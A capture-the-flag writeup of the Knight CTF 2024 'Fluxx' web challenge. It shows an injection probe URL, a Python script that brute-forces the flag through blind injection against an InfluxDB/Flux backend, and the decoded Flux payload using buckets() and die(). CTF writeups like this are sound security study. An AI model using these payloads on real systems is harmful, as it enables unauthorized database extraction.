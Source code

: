 ```yaml
---
layout: post
title: "InfluxDB NoSQL SQL injection | Fluxx web CTF challenge writeup | Knight CTF 2024"
author: "Colleirose"
permalink: /influxdb-injection-nosql-injection-knightctf-2024
date: 2024-01-23
---
```


This is the challenge:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Based on the X-Powered-By header being Express on all pages and receiving a <code>Cannot GET /(requested url)</code> on non-existent URLs (e.g. <a href="http://66.228.53.87:9001/a" rel="noopener">66.228.53.87:9001/a</a>), I can infer this is a <a href="https://expressjs.com/" rel="noopener">Express.js</a> server.
<br/>
<img src="https://cdn.discordapp.com/attachments/1194841726163095565/1198507422340358154/image.png" alt="Response headers showing X-Powered-By: Express"/>

One of our team member finds <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection">book.hacktricks.xyz/pentesting-web/nosql-injection</a>, and using that cheatsheeet (which I recommend using because it is very useful), finds that visiting <code>http://66.228.53.87:9001/query?data='%20||%201==1//%20%20%20%20or%20%20%20%20'%20||%201==1%00%20%20%20%20%20or%20%20%20%20admin'%20||%20'a'=='a</code> creates an error saying <code>Expected RPAREN, got EOF</code>

I search this error online and learn that it's an error related to <a href="https://github.com/influxdata/influxdb" rel="noopener">InfluxDB</a>, which I haven't heard of until this challenge.
<br/>
<img src="/assets/img/expected rparen got eof error.webp" alt="DuckDuckGo search results for the error"/>

This also matches up with the challenge name and description:
<br/>
![Challenge named "Fluxx" with description "Recently I have made a simple app for monitoring and analyzing metrics, events, and real-time data. I used a database which is designed for handling high volumes of timestamped data. But I think its vulnerable find it and get the flag"](/assets/img/challenge fluxx.webp)

Searching about SQL injection in InfluxDB, I find <a href="https://rafa.hashnode.dev/influxdb-nosql-injection" rel="noopener">rafa.hashnode.dev/influxdb-nosql-injection</a>.

After facing some errors, I go back to the article I was copying this code off of and fix my code.

But this is very inefficient to do manually. I find a script on <a href="https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql" rel="noopener">book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql</a> that can automate this. It requires a bit of changes, but here's the working script, based on the Hacktricks resource:

```py
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://66.228.53.87:9001/query?data=%22)%20%7c%3e%20yield(name%3a%20%221337%22)%20%0d%0abuckets()%20%7c%3e%20filter(fn%3a%20(r)%20%3d%3e%20r.name%20%3d~%20%2f%5e" +flag+char+".*%2f%20and%20die(msg%3ar.name))%20%0d%0a%2f%2f")
        if (r.text != "[]"):
            flag += char
            print("[+] Flag: "+flag)
            break
```

The script then crashes with some error about the connection being aborted but tells me the correct string starts with K

<img src="/assets/img/influxdb knightctf challenge console output.webp" alt="Console output"/>

So I went back to Burp Suite and tried it again with the K

<img src="/assets/img/burp suite influxdb knightctf.webp" alt="Burp Suite output showing the flag as KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}"/>

The flag is <code>KCTF{gOUPqVWa0eUT2wF2ipzX3v5pxikvqYhxR9oL}</code> according to the output of this web request. This flag is correct when submitted:

<img src="/assets/img/fluxx challenge correct.webp" alt='Challenge showing "Correct" message after submitting flag'/>

This is the SQL injection payload with the URI parameters decoded. I don't fully understand what it does because I've never used NoSQL or InfluxDB before.

```
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^K.*/ and die(msg:r.name)) 
//
```

I don't know what the first line does, but the second line calls <code>buckets()</code> to list buckets and filters for buckets with a name that matches the regular expression <code>/^K.*/</code>. If it finds one, it dies with the bucket's name (in the output we got in Burp Suite, I'm not sure if some kind of syntax error or <code>die()</code> is what caused the error that included the flag, but it doesn't really matter). The third line is a comment.

In retrospect, maybe <code>/^.*/</code> would've worked fine as the regular expression.